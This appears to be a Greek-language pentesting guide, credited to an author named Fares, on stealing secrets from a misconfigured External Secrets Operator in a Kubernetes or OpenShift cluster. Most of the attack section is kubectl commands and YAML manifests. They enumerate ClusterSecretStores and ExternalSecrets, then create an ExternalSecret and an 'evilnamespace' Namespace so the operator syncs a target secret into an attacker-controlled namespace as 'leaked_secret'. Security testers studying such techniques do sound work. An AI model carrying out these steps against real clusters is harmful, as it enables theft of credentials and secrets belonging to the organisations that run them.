 # External Secret Operator

**Ο αρχικός συγγραφέας αυτής της σελίδας είναι** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Αυτή η σελίδα παρέχει μερικές οδηγίες σχετικά με το πώς μπορείτε να κλέψετε μυστικά από ένα κακώς ρυθμισμένο ESO ή εφαρμογή που χρησιμοποιεί ESO για να συγχρονίσει τα μυστικά της.

## Disclaimer

Η τεχνική που παρουσιάζεται παρακάτω μπορεί να λειτουργήσει μόνο όταν πληρούνται ορισμένες συνθήκες. Για παράδειγμα, εξαρτάται από τις απαιτήσεις που απαιτούνται για να επιτραπεί σε ένα μυστικό να συγχρονιστεί σε ένα namespace που κατέχετε / έχετε παραβιάσει. Πρέπει να το ανακαλύψετε μόνοι σας.

## Prerequisites

1. Ένα foothold σε ένα kubernetes / openshift cluster με δικαιώματα διαχειριστή σε ένα namespace
2. Πρόσβαση ανάγνωσης σε τουλάχιστον ExternalSecret σε επίπεδο cluster
3. Ανακαλύψτε αν υπάρχουν απαιτούμενες ετικέτες / αναφορές ή μέλη ομάδας που απαιτούνται για να επιτρέψουν στο ESO να συγχρονίσει το μυστικό σας. Αν έχετε τύχη, μπορείτε ελεύθερα να κλέψετε οποιοδήποτε καθορισμένο μυστικό.

### Gathering information about existing ClusterSecretStore

Υποθέτοντας ότι έχετε χρήστες που έχουν αρκετά δικαιώματα για να διαβάσουν αυτό το πόρο; ξεκινήστε πρώτα με την καταγραφή των υπαρχόντων _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Ας υποθέσουμε ότι βρήκατε ένα ClusterSecretStore με το όνομα _**mystore**_. Συνεχίστε με την καταμέτρηση του σχετικού externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Αυτή η πηγή είναι περιορισμένη σε namespace, οπότε εκτός αν γνωρίζετε ήδη ποιο namespace να αναζητήσετε, προσθέστε την επιλογή -A για να αναζητήσετε σε όλα τα namespaces._

Πρέπει να λάβετε μια λίστα με τα καθορισμένα externalsecret. Ας υποθέσουμε ότι βρήκατε ένα αντικείμενο externalsecret που ονομάζεται _**mysecret**_ καθορισμένο και χρησιμοποιούμενο από το namespace _**mynamespace**_. Συγκεντρώστε λίγο περισσότερες πληροφορίες σχετικά με το είδος του μυστικού που περιέχει.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Συναρμολόγηση των κομματιών

Από εδώ μπορείτε να αποκτήσετε το όνομα ενός ή πολλών μυστικών (όπως ορίζεται στον πόρο Secret). Θα λάβετε μια έξοδο παρόμοια με:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
So far we got:

- Όνομα ενός ClusterSecretStore
- Όνομα ενός ExternalSecret
- Όνομα του μυστικού

Now that we have everything we need, you can create an ExternalSecret (and eventually patch/create a new Namespace to comply with prerequisites needed to get your new secret synced ):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Μετά από λίγα λεπτά, αν πληρούνταν οι συνθήκες συγχρονισμού, θα πρέπει να μπορείτε να δείτε το διαρρεύσαν μυστικό μέσα στο namespace σας.
```sh
kubectl get secret leaked_secret -o yaml
```
## Αναφορές

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
